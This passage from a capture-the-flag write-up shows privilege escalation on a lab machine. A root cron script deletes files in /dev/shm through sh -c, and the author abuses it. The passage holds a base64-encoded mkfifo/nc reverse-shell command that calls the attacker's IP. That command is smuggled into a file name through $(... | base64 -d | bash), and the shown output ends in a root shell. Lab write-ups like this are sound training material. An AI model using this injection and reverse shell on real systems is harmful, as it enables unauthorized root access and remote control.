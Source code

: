 ![cron](../../../assets/images/ctfs/proving_grounds/assignment/cron.png)

Checking what /usr/bin/clean-tmp.sh does.

```bash
jane@assignment:/tmp$ cat /usr/bin/clean-tmp.sh
#! /bin/bash
find /dev/shm -type f -exec sh -c 'rm {}' \;

```

We just need to pass a base64 encoded command to a file in /dev/shm so the clean-tmp.sh will execute and create rootshell script that allows the current user to get elevated prvileges.

```bash
jane@assignment:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 9002 >/tmp/f" | base64
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjQ1IDkwMDIgPi90bXAvZgo=
jane@assignment:/tmp$ echo "" > /dev/shm/'$(echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjQ1IDkwMDIgPi90bXAvZgo= | base64 -d | bash)'


```

Once the cron job runs we get a reverse shell...

```bash
┌──(vagrant㉿kali)-[~/Documents/PG]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.198.224] 44600
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
#

```
